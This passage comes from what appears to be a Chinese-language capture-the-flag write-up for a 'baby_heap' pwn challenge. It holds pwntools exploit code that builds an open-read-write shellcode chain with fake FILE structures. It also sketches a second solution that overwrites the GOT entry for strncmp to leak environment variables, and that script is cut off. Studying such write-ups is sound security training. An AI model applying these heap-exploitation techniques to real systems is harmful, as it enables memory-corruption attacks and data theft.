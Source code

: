 ```py
orw += p64(rdx_r12_c) + p64(0x7) * 2
orw += p64(libc.symbols['mprotect'])
orw += p64(shell_addr)
''' long syscall(SYS_openat2, int dirfd, const char *pathname, struct open_how *how, size_t size); '''
orw += asm(shellcraft.openat2(-100, orw_addr, orw_addr + 0x1000, 0x18))
''' ssize_t read(int fd, void buf[.count], size_t count); '''
orw += asm(shellcraft.read(3, heap_base_addr + 0x10000, 0x50))
''' ssize_t write(int fd, const void buf[.count], size_t count); '''
''' write to stdout 1 '''
orw += asm(shellcraft.write(1, heap_base_addr + 0x10000, 0x50))
orw += asm(shellcraft.exit(0))

payload = struct_file + struct_widedata + orw
# offset a large chunk header
edit_com(1, payload[16:])

add_com(0x568)
add_com(0x538)

show_com(2)

```

# [](#header-3)pwn baby_heap 特解

由于 getenv、setenv 在遍历所有环境变量时，调用了 strncmp 函数，在这里首先 alloc 堆获取 libc 地址后，直接通过 Secret Shop 修改 got 表中 strncmp 函数的值为 put 函数即可打印出所有环境变量.

### [](#header-3)EXP

```py
#by leeya_bug

from pwn import *
import time

SLEEP_TIME = 0.2

p = process('./debug/qwb_babyheap')
libc = ELF('./glibc-all-in-one/libs/2.35-0ubuntu3.8_amd64/libc.so.6')

def debug():
	subprocess.Popen(["qterminal", "-e", f'bash -c "pwndbg -p {p.pid}" '])
	p.interactive()
	
#------------- 基本配置 -------------


def add_com(size: int) -> None:
	p.sendlineafter(b'Enter your choice:',b'1')
	p.sendlineafter(b'size', str(size).encode())
	
def del_com(index: int) -> None:
	p.sendlineafter(b'Enter your choice:',b'2')
	p.sendlineafter(b'delete:', str(index).encode())
	
def edit_com(index: int, content: bytes) -> None:
	p.sendlineafter(b'Enter your choice:',b'3')
	p.sendlineafter(b'edit:', str(index).encode())
	p.sendlineafter(b'Input the content', content)
	
def show_com(index: int) -> bytes:
```